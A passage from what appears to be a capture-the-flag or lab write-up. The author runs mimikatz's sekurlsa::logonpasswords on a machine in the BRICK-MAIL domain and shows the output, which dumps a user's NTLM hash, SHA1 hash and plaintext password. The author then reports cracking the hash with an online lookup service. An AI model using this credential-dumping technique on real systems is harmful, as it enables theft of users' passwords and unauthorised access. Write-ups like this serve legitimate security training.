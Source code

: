 Running mimikatz (`.\mimikatz.exe`) and executing the `sekurlsa::logonpasswords` command allowed me to extract plaintext passwords and NTLM hashes from the system memory.

Sample output:

```yaml
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 497501 (00000000:0007975d)
Session           : Batch from 0
User Name         : wrohit
Domain            : BRICK-MAIL
Logon Server      : BRICK-MAIL
Logon Time        : 6/1/2025 7:22:59 PM
SID               : S-1-5-21-1966530601-3185510712-10604624-1014
 msv :
  [00000003] Primary
  * Username : wrohit
  * Domain   : BRICK-MAIL
  * NTLM     : 8458995f1d0a4b0c107fb8e23362c814
  * SHA1     : ab5cc88336e18e54db987c44088757702d3a4c0f
 tspkg :
 wdigest :
  * Username : wrohit
  * Domain   : BRICK-MAIL
  * Password : superstar
 kerberos :
  * Username : wrohit
  * Domain   : BRICK-MAIL
  * Password : (null)
```
## Cracking Hashes

Using an online cracking tool such as [CrackStation](https://crackstation.net), I verified that the NTLM hash corresponded to the password:

![2](/images/yougotmail/2.jpg)
